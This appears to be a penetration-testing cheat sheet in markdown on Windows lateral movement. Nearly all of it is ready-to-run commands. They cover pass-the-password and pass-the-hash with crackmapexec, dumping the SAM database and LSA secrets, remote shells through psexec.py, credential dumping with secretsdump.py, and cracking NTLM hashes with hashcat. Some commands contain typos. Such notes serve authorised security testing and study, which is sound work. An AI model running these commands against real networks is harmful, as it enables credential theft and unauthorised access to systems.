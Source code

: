 - Pass the Password/Pass the Hash
Tool: 
[crackmapexec](#https://github.com/Porchetta-Industries/CrackMapExec)
we can install crackmapexec from repository
```
apt install crackmapexec
[...]
crackmapexec --help => Check options sam, lsa
```
### Pass the password
Pass the password with crackmapexec
```
crackmapexec <ip/CIDR> -u <user_name> -d <domain> -p <pass>
[...]
newest version:
crackmapexec smb <ip/CIDR> -u <user_name> -d <domain> -p <pass>
```

Try to dump SAM file with Pass the password
```
crackmapexec <ip/CIDR> -u <user_name> -d <domain> -p <pass> --sam
[...]
newest version:
crackmapexec smb <ip/CIDR> -u <user_name> -d <domain> -p <pass> --sam
```

Login with psexec.py
````
psexec.py <domain>/<user_name>:<Password>@<IP_address>
````

- Hashes dumping with secretdump.py
Tool: [secretdump](#https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)

Dumping hashes
```
secretdump.py <domain>/<username>:<passwprd>@<ip_address>
```

- Cracking NTLM Hashes with Hashcat
```
hashcat -m 1000 hash_file.txt dictionary.txt -O
```
### Pass the hash

Pass the Hash with crackmapexec
```
crackmapexec <ip/CIDR> -u <user_name> -H <hash_value(last part without :> --local
[...]
newest version:
crackmapexec smb <ip/CIDR> -u <user_name> -H <hash_value(last part without :> --local-auth
```

Pass the Hash with psexec
```
psexec.py "user_name":@<ip> -hashes <lm:ntml_hash -> eniter hash without : on begining and the end>
```
